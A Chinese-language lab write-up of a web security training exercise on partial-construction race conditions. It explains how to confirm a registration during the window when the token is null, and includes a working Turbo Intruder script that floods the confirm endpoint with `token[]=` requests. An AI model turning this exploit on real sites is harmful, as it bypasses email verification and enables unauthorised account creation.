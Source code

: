 许多应用程序在创建对象时需要经过多个步骤，这可能会引入一个临时的中间状态，在该状态下对象是可以被利用的。具体例子看 Lab 就行。

### Lab: Partial construction race conditions

这个实验开始有点现实渗透的意思了，也是 Partial construction race conditions 一个典型的例子。

后端注册的逻辑大概就是先将用户名、密码、邮箱存入到数据库中，然后生成这个邮箱对应的 token 发送到邮箱并将 token 存入数据库中。用户在邮箱中查收 token 并验证就可以通过注册了。

对应的漏洞就是，存在这么一个竞争窗口，用户名、密码、邮箱存入到数据库之后，生成 token 存入数据库之前，在这个窗口中 token 实际上是 null，因此这时候的 confirm 接口传一个等同于 null 的 token 就可以验证通过。

confirm 接口是从 `/resources/static/users.js` 中找到，通过测试发现 `POST /confirm?token[]=` 的响应结果是 `"Incorrect token: Array"` 而不是 `forbidden`，因此等效于 null。

拿 **Turbo Intruder** 中的 `examples/race-single-packet-attack.py` 攻击：

```php
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0a4e00ff043eb735814e490200960010.web-security-academy.net
Cookie: phpsessionid=BRTkAgx6CPAghuEp5LnJpmdoRvynz5es
Content-Length: 0

'''
    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for i in range(20):
        username = 'ff'+str(i)

        engine.queue(target.req, username,gate='race1')
        for j in range(20):
            engine.queue(confirmationReq, gate='race1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')

def handleResponse(req, interesting):
    table.add(req)
```
